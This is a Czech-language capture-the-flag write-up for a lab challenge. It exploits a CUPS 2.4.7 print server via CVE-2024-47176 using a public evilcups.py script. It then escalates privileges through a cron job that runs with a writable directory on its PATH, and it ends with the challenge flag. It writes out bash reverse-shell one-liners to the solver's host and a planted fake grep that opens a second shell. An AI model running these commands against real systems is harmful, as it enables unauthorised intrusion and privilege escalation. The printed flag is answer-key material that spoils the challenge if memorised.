 # Print server (3)

## Zadání

Hi, emergency troubleshooter,

we've received a notification from the national CSIRT that the print server `ipp.powergrid.tcc` may contain a vulnerability. Verify this report and determine whether the vulnerability is present and how severe it is.

Stay grounded!

`NOTE: This challenge will restart every whole hour to ensure proper functionality.`

`NOTE: If you have played this challenge before 2025-10-06 23:08:00 CEST, start from scratch again, please. Some issues have been fixed.`

## Řešení

Nejdříve uděláme port scan počítače ze zadání.

`nmap ipp.powergrid.tcc -sV -sC`

```text
PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 2.4
|_/
|_http-server-header: CUPS/2.4 IPP/2.1
|_http-title: Home - CUPS 2.4.7
| http-robots.txt: 1 disallowed entry
```

Na počítači běží tisková služba, kterou obsluhuje CUPS ve verzi 2.4.7.

Tato verze obsahuje chybu kolem [CVE-2024-47176](https://www.hackthebox.com/blog/cve-2024-47176-cups-vulnerability-explained).

Použijeme třeba exploit [evilcups.py](https://github.com/gumerzzzindo/CVE-2024-47176).

Na vlastním PC spustíme poslouchání na portu 4444.

`nc -vlnp 4444`

a spustíme exploit

`python "evilcups.py" 10.200.0.91 ipp.powergrid.tcc "bash -i >& /dev/tcp/10.200.0.91/4444 0>&1"`

```text
IPP Server Listening on ('10.200.0.91', 12345)
Sending udp packet to ipp.powergrid.tcc:631...
Please wait this normally takes 30 seconds...
5 elapsed
target connected, sending payload ...

target connected, sending payload ...
19 elapsed
```

Na WEB stránce serveru <http://ipp.powergrid.tcc:631/printers/> vyhledáme naší tiskárnu podle naší IP adresy (HACKED_10_200_0_91) a vytiskneme zkušební stránku.

Server by se měl připojit na náš port 4444 a měli bychom mít reverse shell.

FLAG není uložený na běžných místech jako jsou proměnné prostředí nebo soubor přístupný aktuálním uživatelem.

Zajímavý je soubor
`/etc/cron.d/statistics-job`

```text
* * * * * cups_admin PATH=/opt/scripts:/usr/bin:/bin /usr/bin/python3 /opt/secure-scripts/statistics.py -n /opt/scripts/print_count.sh > /var/log/cron.log 2>&1`
```

CRON zde volá jako uživatel cups_admin soubor `/opt/secure-scripts/statistics.py` s nastaveným PATH na `/opt/scripts:/usr/bin:/bin`, který není přístupný pod aktuálním uživatelem, ale v dalším parametru je soubor `/opt/scripts/print_count.sh`, což je skript

```sh
#!/bin/bash

log="/var/log/cups/access_log"
output="/tmp/stats.txt"

grep 'POST /printers/.*HTTP/1\.1" 200' "$log" | awk '{ print $4, $7 }' | while read -r datetime path; do
    date=$(echo "$datetime" | cut -d: -f1 | tr -d '[')
    printer=$(echo "$path" | cut -d'/' -f3)
    echo "$date $printer"
done | sort | uniq -c | sort -nr > "$output"$
```

Skript volá některé příkazy jako grep, awk atd a díky tomu, že je nastavený PATH na `/opt/scripts:/usr/bin:/bin` a adresář `/opt/scripts` je zapisovatelný aktuálním uživatelem, tak můžeme podstrčit upravený grep nebo awk, který bude spuštěn CRONem jako uživatel cups_admin.

Na vlastním PC spustíme další poslouchání na portu 4445.

`nc -vlnp 4445`

a vytvoříme náš `grep`

```sh
echo '#!/bin/sh' > /opt/scripts/grep
echo 'nohup bash -c "bash -i >& /dev/tcp/10.200.0.91/4445 0>&1"' >> /opt/scripts/grep
chmod 777 /opt/scripts/grep
```

a počkáme na celou minutu, až se spustí CRON a otevře se nám reverse shell s přihlášeným uživatelem `cups_admin`. Ale ani tento uživatel nemá přístup do žádného souboru, ve kterém by byl FLAG. Zajímavý je ale soubor `/etc/sudoers.d/cups_admin`, který upravuje přístup do některých souborů. Jeho obsah se normálně nedá zobrazit, ale sudo nám může říct, jaká oprávnění navíc máme.

`sudo -l`

```text
Matching Defaults entries for cups_admin on 22d5bf06c331:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User cups_admin may run the following commands on 22d5bf06c331:
    (ALL) NOPASSWD: /bin/cat /root/TODO.txt
```

Zobrazíme si FLAG

`sudo cat /root/TODO.txt`

## Flag

`FLAG{HqW1-cHIN-6S8U-w5uQ}`

